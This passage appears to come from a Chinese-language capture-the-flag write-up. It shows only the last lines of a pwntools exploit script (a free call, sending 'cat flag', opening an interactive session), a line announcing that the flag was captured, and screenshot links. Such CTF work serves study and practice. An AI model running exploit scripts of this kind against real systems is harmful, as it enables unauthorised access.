    ```python
   free(3)
   
   p.sendline(b"cat flag")
   p.interactive()
   ```

   成功拿到flag：

   ![image-20240718192933518](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407181932214.png)
